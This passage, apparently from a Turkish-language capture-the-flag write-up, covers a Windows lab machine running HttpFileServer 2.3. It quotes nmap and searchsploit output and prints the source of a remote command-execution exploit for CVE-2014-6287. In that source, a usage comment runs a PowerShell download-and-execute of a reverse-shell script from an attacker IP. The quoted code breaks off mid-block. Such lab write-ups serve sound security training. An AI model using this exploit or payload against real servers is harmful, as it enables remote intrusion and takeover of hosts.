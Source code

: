 ```
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.29 seconds
```

nmap hostu Windows olarak tanımlıyor, ancak HTTP sunucusu IIS'e benzemiyor, bu nedenle işletim sistemi sürümünü öğrenmek zor.

### Website - TCP 80

#### Site

Web sitesi tam da nmap komut dosyalarının tanımladığı şeydir - HttpFileServer (HFS):

![Pasted image 20250109022626.png](/img/user/resimler/Pasted%20image%2020250109022626.png)


Bazı basit kimlik tahminlerini denedim ama olmadı.


#### Vulnerabilities

Sayfanın alt kısmı, çalışan **HFS**'nin tam sürümünü, 2.3'ü veriyor. **searchsploit**, bu sürüm için bir hata içeriyor:

```
oxdf@parrot$ searchsploit httpfileserver
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command | windows/webapps/49125.py
---------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Bu güvenlik açığı [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287) olarak bilinmektedir.


## Shell as kostas

### Exploit Analysis

Exploit'e bakmak için `searchsploit -x windows/webapps/49125.py` kullanarak, inanılmaz derecede basittir:

```
#!/usr/bin/python3

# Usage :  python3 Exploit.py <RHOST> <Target RPORT> <Command>
# Example: python3 HttpFileServer_2.3.x_rce.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.4/shells/mini-reverse.ps1')"

import urllib3
import sys
import urllib.parse

try:
        http = urllib3.PoolManager()    
        url = f'http://{sys.argv[1]}:{sys.argv[2]}/?search=%00{{.+exec|{urllib.parse.quote(sys.argv[3])}.}}'
        print(url)
        response = http.request('GET', url)
        
except Exception as ex:
```